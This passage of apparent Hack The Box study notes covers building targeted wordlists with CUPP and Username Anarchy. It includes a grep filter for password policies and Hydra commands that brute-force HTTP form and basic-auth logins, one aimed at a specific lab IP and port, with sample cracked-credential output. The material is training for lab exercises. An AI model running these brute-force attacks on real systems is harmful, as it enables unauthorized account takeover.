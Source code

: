 ```bash
DJMC@htb[/htb]$ grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```

---

## Combining Wordlists with Hydra
Use the generated username and password lists in Hydra:
```bash
DJMC@htb[/htb]$ hydra -L jane_smith_usernames.txt -P jane-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"
```

### Example Output
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak
...
[PORT][http-post-form] host: IP   login: Jane.Smith   password: P@ssw0rd! [SUCCESS]
...
1 of 1 target successfully completed, 1 valid password found
```

Log into the system with the discovered credentials and retrieve the flag.

---

## Summary
Custom wordlists dramatically improve brute-force efficiency by tailoring lists to the target:
1. **Username Anarchy**: Generates diverse username combinations.
2. **CUPP**: Creates highly targeted password lists based on personal information.
3. **Filtering**: Refines lists to meet specific password policies.
4. **Hydra**: Executes attacks using the tailored wordlists.

This approach underscores the importance of strong, unique authentication practices to protect against brute-force attacks.

---

# Skills Assessment

## Part 1: Basic Auth Login
**Objective:** Find the password for the basic authentication login.

### Steps:
1. Use Hydra to perform a brute-force attack on the HTTP service running on port `55023`.
    ```bash
    hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt 83.136.253.216 http-get / -s 55023
    ```
